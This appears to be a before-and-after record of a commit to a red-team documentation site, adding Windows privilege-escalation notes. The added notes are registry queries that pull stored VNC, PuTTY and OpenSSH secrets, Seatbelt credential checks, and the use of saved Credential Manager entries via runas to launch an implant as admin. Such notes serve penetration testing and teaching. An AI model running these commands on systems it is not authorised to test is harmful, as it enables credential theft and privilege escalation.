

Before and after one commit to ConfusingBLANK/confusingblank.github.io, an MkDocs documentation site: the page built from docs/windowsexploitation/privilege-escalation.md, in a window 1280 px wide and 1270 px high. Shown: the whole window at 85% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
priv-esc updates

````diff
--- a/docs/windowsexploitation/privilege-escalation.md
+++ b/docs/windowsexploitation/privilege-escalation.md
@@ -15,5 +15,36 @@ SharpShares.exe /ldap:all /filter:sysvol,netlogon,ipc$,print$
 Either extract the c-dirs.txt file onto your system and use your tool/text editor of choice to search for sensitive file. If you prefer to stay on the windows system and search through the file, use `type` and `findstr` to search for sensitive string.
 
 ```
-type c:\rto\c-dirs.txt | findstr /i passw
+type c-dirs.txt | findstr /i passw
 ```
+
+## Registry Queries
+Passwords for putty, vnc, and OpenSSH keys can be stored in the registry.
+
+```
+reg query "HKCU\Software\ORL\WinVNC3\Password"
+reg query "HKCU\Software\TightVNC\Server"
+reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
+reg query "HKCU\Software\OpenSSH\Agent\Keys"
+reg query HKLM /f password /t REG_SZ /s
+reg query HKCU /f password /t REG_SZ /s
+```
+
+SeatBelt can also be used to search through the registry.
+
+```
+Seatbelt.exe WindowsAutoLogon
+Seatbelt.exe reg
+```
+
+## Credential Manager
+
+Credentials stored in the windows credential manager can be abused to run commands or launch payloads as another users.
+
+```
+# List stored credentials
+cmdkey /list
+
+# User a stored credential
+runas /savecred /user:admin implant.exe
+```
````
